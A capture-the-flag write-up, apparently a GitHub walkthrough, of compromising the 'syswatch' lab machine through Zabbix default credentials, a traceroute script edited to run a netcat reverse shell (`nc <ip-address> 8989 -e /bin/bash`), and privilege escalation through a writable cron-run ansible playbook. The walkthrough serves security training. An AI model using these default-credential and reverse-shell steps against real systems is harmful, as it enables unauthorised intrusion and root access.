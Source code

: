 # Write Up on syswatch machine

## Information Gathering And Enumeration
Let's us first start off by firing up our network mapper (nmap) to discover open ports and running services on our target. <br>
`nmap -sC -sV -oN syswatch.nmap 10.0.160.159`
```
Nmap scan report for 10.0.160.159
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Cyborg Gaming
5000/tcp open  http    nginx 1.18.0
| http-robots.txt: 2 disallowed entries 
|_/ /zabbix/".
|_http-server-header: nginx/1.18.0
|_http-title: Zabbiz: Zabbix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 10:20:45 2023 -- 1 IP address (1 host up) scanned in 24.85 seconds
```

From the above scan we see that there are two services running. I browsed through the service running on port `80` but found nothing interesting. Looking at port `5000` nmap tells us that the application `zabbix` is running on that port.<br>

Let's take a look at it in our browser. <br>
![zabbix homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-port-5000-browser.png)

We are greeted with a login page and as usual we test default credentials to see if they work. After some googling we come across the default credentials for `zabbix`. <br>
![zabbix default creds](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-logins-zabbix-google.png)


## Exploitation
We can now test these credentials to see if they work. We enter the credentials and just like that we're are logged in to `zabbix`.<br>

After spending sometime reading about zabbix RCE and browsing through the application i found a hosts tab which allows us to run some defaults scripts on hosts in `zabbix`.<br>
![checking zabbix hosts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/checking-hosts-zabbix.png) <br>

And these are the various scripts we can run on the target. <br>
![zabbix host tab](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-host-scripts.png)

After further probing i found out that these scripts that are run on the zabbix host can be edited (because we are the administrator). Let's first start off by viewing the content of these default scripts.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/see-scripts.png)

After clicking on the script name we are greeted with a form which allows us to change the content of the script. For this demonstration we will edit the `traceroute` script. <br>

This is the orginal content of the traceroute script.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-tracert-script.png)

We can edit this and place our malicious code here. <br>
`nc <ip-address> 8989 -e /bin/bash` <br>
After editing we can click on `update` to save those settings. <br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/edit-and-update-script.png)

We now head back to the `host` tab to run this script on the target server. We simply do that by clicking on the host and clicking on the script we want to run. Hold up!!! before you run the script make sure you have your netcat listening for incoming connections. <br>
![netcat listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/listening-on-nc.png)

Finally, we can run our malicious script(traceroute) to get a shell on our listener.<br>
![run mal script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run-modified-scripts.png)

Interesting.... we have a shell on the target. <br>
![got shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/connection-recieved-on-nc.png) <br>
NB: The script run time on `zabbix` times out after some minutes. If this happens just re-run the traceroute poisoned script.


## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell Stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>


## Privilege Escalation
First thing i did was to run `sudo -l` but no luck. Next i decided to check if there's a process running with elevated privileges that can be abused. <br> 

We transfer our trusted friend `pspy64` onto the target. <br>

Brief explanation of `pspy64`: it is a program that allows us to snoop on linux processes to find sensitive information, processes running with elevated privileges amongst many others. We would have to run this on the target to get the required information. <br>

We start off by starting our python http server in the directory that houses the `pspy64` binary. <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/serving-pspy64.png)

Then we download onto our target machine. Preferably we'll first change directory to the `/tmp` since it has loose permissions (rwx) for all users. <br>
![download pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/cd-to-tmp-and-download-pspy64.png)

Next, we give `pspy64` execute permissions. <br>
![exec pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/execute-perms-on-pspy64.png)

Then we run it. <br>
![run pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run_pspy64.png)

![cronjob ansible](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/running-cron-job.png)

From the output we find out that a cronjob is running an ansible-playbook. We can find this playbook here: `/opt/playbooks/playbook.yml`. Let's not rush into anything yet, we must first check our permissions on `/opt/playbooks/playbook.yml`. <br>
![check perms](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/write-perms-on-playbook.png)

Wow! we have write permissions. Let's run off to create a malicious playbook. <br>
![mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/playbook-yaml-payload.png)

We then download the playbook onto out target. At this point i assume you already have your python http server setup. <br>
![download mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/download-mal-playbook.png)

After this, we quickly setup our netcat listener. Note that, while crafting the malicious playbook we entered a command that will spawn a shell to connect to our machine on port `9090` using netcat. <br>

Now let's listen on port 9090. `rlwrap nc -lnvp 9090`
![other nc](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/other-nc-listening.png)

We can now go back to our target and over write the original `playbook.yml`.<br>
![overwrite playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/over-write-original-playbook.png)

Now, we patiently wait for a connection on `9090`. :rofl: <br>
After a while the cron runs and we receive a connection.<br>
![conn recv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/root-shell-cron-job-execs.png)

We are now root!! :smiley:<br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/i-am-root.png)